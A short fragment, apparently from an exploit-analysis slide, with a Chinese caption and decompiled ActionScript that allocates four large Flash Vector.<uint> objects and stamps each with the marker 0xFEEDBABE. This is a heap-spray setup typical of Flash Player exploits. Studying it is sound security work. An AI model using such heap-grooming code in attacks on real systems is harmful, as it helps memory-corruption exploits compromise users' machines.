

申请了4个大小是0x40MB的FLASH vector<uint>对象
			while (_local_1 < 0x4) {
				this.vector_uint_array[_local_1] = new Vector.<uint>();
				_local_1++;
			};

			_local_1 = 0;
			for (; _local_1 < 4; _local_1++) {
				_local_2 = (this.vector_uint_array[_local_1] as Vector.<uint>);
				_local_2.length =0x1000000-0x10;
				_local_2[0] =  0xFEEDBABE
			}